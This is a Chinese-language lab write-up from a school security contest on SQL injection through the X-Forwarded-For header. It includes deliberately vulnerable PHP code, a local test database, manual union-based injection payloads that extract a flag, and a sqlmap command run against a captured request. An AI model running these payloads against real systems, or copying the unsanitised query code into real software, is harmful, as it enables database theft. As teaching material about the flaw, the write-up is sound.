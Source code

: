##X-FORWARDED-FOR SQL Injection

###0x01
#####XFF注入
最近在学校办的信安比赛中遇到了个XFF漏洞，之前没有接触，比赛完了总结一下，自己搭了个环境，做了个poc


>测试代码
 
```
	<?php
		error_reporting(E_ALL ^ E_NOTICE);
		include "config.php";
		
		if($_SERVER["HTTP_X_FORWARDED_FOR"]) {
			$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
		}
		else {
			$ip = $_SERVER["REMOTE_ADDR"];
		}
		$flag = true;
		
		$select = mysql_query("SELECT ip FROM record");
		while($row = mysql_fetch_array($select))
		{
			if(!strcmp($ip, $row['ip'])) {
				$flag = false;
			}
		}
		
		if($flag == true) {
			$command = "insert into record(ip,count) values('".$ip."',1)";
			mysql_query($command);
		}
		
		else {
			$command = "update record set count=count+1 where ip='".$ip."' ";
			mysql_query($command);
		}
		$count = mysql_query("select * from record where ip='".$ip."' ");
		while($result = mysql_fetch_array($count)) {
			echo "Welcome " . $ip . ", This is count " . $result['count'] . "</br>";
		}
	?>
```

>数据库结构

Table：record
```
	id		ip		count
	1		10.0.0.1		1
	2		10.0.0.2		2
	3		192.168.0.1	20
```
Table:flag(for test)
```
	flag		values
	Flag		Y0u_Ar3_G00d
```


###0x02
#####注入poc

使用burpsuite截断，转入到Repeater，添加X-FORWARDED-FOR参数，value为192.168.0.1，发现ip变为了192.168.0.1，count重新开始计算  
修改xff值为192.168.0.1'   发现报了错误，value=192.168.0.1'#时不报错，确定注入点。
  
查看列数：xff = 192.168.0.1' order by 3#
查看回显位：xff=192.168.0.1' and 1=2 union select 1,2,3 from record#
查询flag值：xff=192.168.0.1' and 1=2 union select 1,2,value from flag#

</br>
>使用sqlmap试试    

使用burpsuite截取包后，添加XFF参数
```
	GET /XFF_injection/index.php HTTP/1.1
	Host: 127.0.0.1
	Proxy-Connection: keep-alive
	Cache-Control: max-age=0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 
	(KHTML, like Gecko) Chrome/46.0.2490.80 Safari/537.36
	Accept-Encoding: gzip, deflate, sdch
	Accept-Language: zh-CN,zh;q=0.8
	X-Forwarded-For: 192.168.0.1
```
命名为1.txt，丢入sqlmap  
sqlmap -r 1.txt --dbs  

就出数据库了。。。。。。。  


</br>
Q&A：  
Q:sql语句语句中 union 的作用是？
A:UNION 操作符用于合并两个或多个 SELECT 语句的结果集。

Q:sql注入中的回显位是什么？
A:以上面的record表和测试用例为例，通过xff=192.168.0.1' and 1=2 union select 1,2,3 from record#  看到输出结果是三，表示php代码中，将select查询语句执行后，选取了第三个列名作为数据源来输出。在构造sql注入语句时，应该在该回显位上写入我们需要的列名，这样才能看到输出结果。